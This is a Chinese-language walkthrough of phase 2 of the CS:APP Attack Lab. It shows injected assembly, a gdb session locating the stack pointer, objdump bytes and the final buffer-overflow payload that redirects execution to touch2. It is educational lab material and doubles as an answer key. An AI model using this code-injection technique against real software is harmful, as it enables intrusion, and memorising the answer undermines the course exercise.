 根据提示我们可以利用溢出将返回地址指向栈的地址,然后再栈中执行如下汇编代码即可

```x86asm
mov $0x59b997fa, %rdi # 赋值val
push $0x4017ec        # touch2 地址
ret
```

所以现在需要打断点确定rsp的值,这里就在调用 `Gets` 函数调用前打一个断点

```bash
(gdb) b *0x4017af
Breakpoint 1 at 0x4017af: file buf.c, line 14.
(gdb) r -q
Starting program: /root/csapp/03Attack Lab/target1/ctarget -q
Cookie: 0x59b997fa

Breakpoint 1, 0x00000000004017af in getbuf () at buf.c:14
14      buf.c: No such file or directory.
(gdb) info r rsp
rsp            0x5561dc78       0x5561dc78
```

得到输入时栈指针的值是 `0x5561dc78`, 也就是应该使用栈溢出覆盖的返回地址

接着使用gcc得到汇编对应的字节码

```bash
gcc -c 2.s
objdump -d 2.o > 2.d
```

可以得到如下的 `2.d`

```txt
2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
   7:   68 ec 17 40 00          pushq  $0x4017ec
   c:   c3                      retq
```

由于指令的执行是低地址到高地址的,而我们输入的时候也是从低地址向高地址输入的,所以这里并不需要逆序

调用过程如下图所示

![20221110224424](https://raw.githubusercontent.com/learner-lu/picbed/master/20221110224424.png)

所以本关答案为

```txt
48 c7 c7 fa 97 b9 59 68 ec 17
40 00 c3 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
78 dc 61 55
```

